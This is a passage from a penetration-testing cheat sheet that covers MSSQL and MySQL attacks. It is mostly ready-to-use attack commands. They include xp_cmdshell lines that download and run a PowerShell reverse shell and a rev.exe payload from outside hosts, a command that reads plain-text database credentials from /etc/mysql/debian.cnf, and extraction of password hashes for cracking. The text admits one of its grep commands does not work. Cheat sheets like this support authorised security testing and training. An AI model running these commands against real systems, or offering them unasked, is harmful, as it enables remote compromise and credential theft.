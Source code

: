 ```sql
# if logged using impacket-mssqlclient
SQL> enable_xp_cmdshell
SQL> RECONFIGURE
SQL> xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.13:8000/rev.ps1") | powershell -noprofile'
# If this didn't work use:
SQL> xp_cmdshell "powershell.exe wget http://192.168.119.147/rev.exe -OutFile c:\\Users\Public\\rev.exe"
SQL> xp_cmdshell  "c:\\Users\Public\\rev.exe"

```

Reference: [1433 - Pentesting MSSQL - Microsoft SQL Server](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
### 3306 - Pentesting Mysql
#### Connect
- Local
    ```sh
    mysql -u root # Connect to root without password
    mysql -u root -p # A password will be asked (check someone)
    ```
- Remote
    ```
    mysql -h <Hostname> -u root
    mysql -h <Hostname> -u root@localhost
    ```
#### External Enumeration
Some of the enumeration actions require valid credentials
```sh
nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 $IP
```
#### Extracting MySQL credentials from files
Inside `/etc/mysql/debian.cnf` you can find the plain-text password of the user `debian-sys-maint`
```sh
cat /etc/mysql/debian.cnf
```
You can use these credentials to login in the mysql database.
Inside the file: `/var/lib/mysql/mysql/user.MYD` you can find all the hashes of the MySQL users (the ones that you can extract from mysql.user inside the database).
You can extract them doing (this doesn't work need to fix):
```sh
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```
These hashes can be cracked using hashcat (`-m 300` - MySQL4.1/MySQL5).
#### Default MySQL Database/Tables
These tables are useless for the research:
```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |    --> use mysql; select * from user;
| performance_schema |
| sys                |
+--------------------+
```
#### Privilege Escalation
[Privilege Escalation with MySQL 4.X/5.0 (Linux)](https://gist.github.com/A-Pisani/efa2a11cbf555e7e83c70c9406b730c6#mysql-case-study)
### TOMCAT enumeration